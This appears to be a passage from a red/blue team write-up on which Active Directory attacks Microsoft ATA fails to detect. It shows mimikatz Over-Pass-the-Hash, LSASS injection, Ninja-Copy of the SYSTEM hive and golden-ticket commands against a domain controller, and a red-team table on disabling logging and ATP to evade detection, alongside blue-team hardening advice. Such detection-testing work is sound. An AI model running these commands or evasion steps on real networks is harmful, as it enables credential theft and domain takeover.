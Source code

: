 **Not detected**: Over-Pass-The-Hash using all hash/keys.

In a mimikatz console:

    sekurlsa::pth /user:administrator /domain:prod.local /aes256:<data> /ntlm:<hash> /aes128:<data>
    

Lateral movement via SQL Auth is not detected.

For the dominance.

**Not detected**: PowerSploit: Mimikatz in memory w/ LSASS injection

    Invoke-Mimikatz -Command '"privilege::debug" "LSADump::LSA /inject"' -Computer dc03.prod.local
    

**Not detected**: PowerSploit: Ninja-Copy (PSRemoting with Raw Disk Access)

    Invoke-NinjaCopy -Path "c:\Windows\System32\config\SYSTEM" -ComputerName "dc03.prod.local" -LocalDestination "c:\temp\system"
    

**Not detected**: Golden ticket w/ AES Key

In mimikatz console:

    kerberos::golden /user:JohnVanwagoner /domain:prod.local /sid:sid /aes256:aes256 /groups:512,513,519 /startoffset:-1 /endin:2500 /renewmax:3000 /ptt
    

|Red Team Takeaways|
|------------------|
|Return to living off the land, directly call APIs|
|Leverage host based PowerShell tools only after you've blocked or disabled ATP & event log forwarding|
|Review RDP/PS/Session history to help avoid user behavior analytics|
|Block event log forwarding to prevent Sysmon/WMI/PowerShell/Security logs giving you away|
|Use ACE/DACL abuse to help avoid using RCE when possible|
|Focus on info gathering and lateral movement techniques that don't comm with the DC, liks SQL auth and Silver Tickets|
|Kerberoast & Silver Ticket all the things|
|Use AES for Over-PTH, Golden Tickets|
|Abuse Forest Trusts|

|Blue Team Takeaways|
|-------------------|
|Limit PS Remoting sources to dedicated admin workstations|
|Use JEA (Just Enough Administration) to help prevent lateral movement success|
|Harden SQL servers, review forest trusts|
|Integrate SIEM/VPN logs into ATA|
|Use Event Log Forwarding for Sysmon and WMI logging with shorter polling times|
|Audit your AD object ACLs with BloodHound|
|Enforce AES-256, especially for service account SPNs|
|Enforce "Binary Signature Policy" in 1703 to help protect PPLs|
|Integrate those new Defender branded tools like Exploit Guard (WDEG)|
|Enforce EMET/WDEG's Attack Surface Reduction (ASR) rules|
